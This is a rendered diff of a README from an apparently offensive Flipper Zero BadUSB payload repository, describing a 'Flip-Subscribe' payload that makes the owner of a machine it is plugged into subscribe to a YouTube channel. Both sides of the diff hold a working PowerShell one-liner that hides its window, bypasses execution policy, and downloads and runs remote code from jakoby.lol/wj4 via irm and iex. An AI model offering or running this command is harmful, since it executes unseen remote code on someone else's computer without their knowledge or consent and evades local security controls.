

Before and after one commit to I-Am-Jakoby/Flipper-Zero-BadUSB, a Markdown page: Payloads/Flip-Subscribe/README.md, the part around the change. Rendered like a GitHub page.

````diff
--- a/Payloads/Flip-Subscribe/README.md
+++ b/Payloads/Flip-Subscribe/README.md
@@ -35,9 +35,9 @@ SPOILER: They do.
 
 * Plug in your device
 * 15 seconds later you have a new subscriber
-
+* Your youtube url needs to be inside both double and single quotes   " ' url ' "
 ```
-powershell -w h -NoP -Ep Bypass $channel='youtube.com/iamjakoby';irm jakoby.lol/wj4 | iex
+powershell -w h -NoP -Ep Bypass $channel="'youtube.com/iamjakoby'";irm jakoby.lol/wj4 | iex
 ```
 
 <p align="right">(<a href="#top">back to top</a>)</p>
````
